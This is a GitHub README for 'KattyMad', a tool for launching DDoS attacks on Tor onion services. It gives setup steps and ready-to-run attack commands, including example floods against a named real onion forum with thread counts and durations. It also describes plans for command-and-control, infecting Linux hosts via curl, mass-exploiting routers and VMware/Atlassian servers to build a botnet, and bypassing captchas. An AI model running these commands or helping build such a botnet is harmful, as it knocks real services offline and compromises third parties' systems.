 # Kattymad
# v1.1
KattyMad is a tool designed to install and perform DDoS attacks over the onion protocol.  <br>
I started from a fork of "KARMA" but it was literally unmaintaned and was using old cookies concept and also network stack was performing worstly than expected.
So i started again and this time i found very useful the MHDDoS project. <br>
Im constantly editing this project because the aim is to create mass environments that can easily takeover onion networks.
Please, read the [TODO](TODO.txt) and help me.

(NB. Credits binary code is just a reverse from ascii common text)<br>
![kattymad](https://github.com/electr0lulz/kattymad/blob/e5438634e844787037fc47dc16806fb2bb05bc06/ddos/files/katty_1.png)


## Usage on Linux ##
Requirements:
You must use Python 3.9 or higher

Step:
```
git clone https://github.com/electr0lulz/kattymad
cd kattymad
sudo ./setup.sh
```
## Example
```
Use DDoS Panel   : python3 kitty.py
Use command line : python3 kitty.py <method> <target> <thread> <time>
```

## Pratical Usage on onion services ##
ATM: best methods are stomp+cookies+slow (and connections) i will include here a script call ddos.sh that require only URL+TIMING args.
```
syntax:
python3 katty.py cookie $1 0 256 proxy.txt $PORT $2
example:
python3 katty.py stomp http://cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion/ 0 64 proxy.txt 256 1800 debug
or
./ddos http://cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion/ 60 ##### it means 60 seconds ddos on url of cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion.
```
Where $PORT is a variable editable into your ddos.sh file, usually 80 is the best option. $1 is the url, and $2 is the timing.
About now it's automatically setted up on 256 threads. (connections don't require anything else)
CryptBB is just an onion example. Use your favorite onion url.

Soon i will remove all unused methods from previous forked version, also, you will be able to access to the C2C management where you can add all your katty servers and start attacks with a everyshell together.
Also will spawn a very nice WebDashboard (now coded in PHP, but soon will be ported in golang) where you can manage your C2C, your bots without needs to open shell, have a very easy way to spread your commands with just a "DataDispatch" or to infect other linux-based systems with just a curl, and a web-exploitter based on realtek, dlink and other shitty-router platform (including some mass-exploit made by me for vmware and atlassian) allowing you to have a botnet very quickly.
Very soon multitor version and captcha bypass will be added, even if we are found a lot of problems in solving the dread-based-captcha.
##

## NB.
I wish to remember you all, especially to people who suffer paranoid attacks: this is all opensource code. You can read every fucking single line and see that there's no encoded parameters. So no honeypot, no rat, no fucking bullshit.
See you around.
[Electr0lulz](https://github.com/electr0lulz/)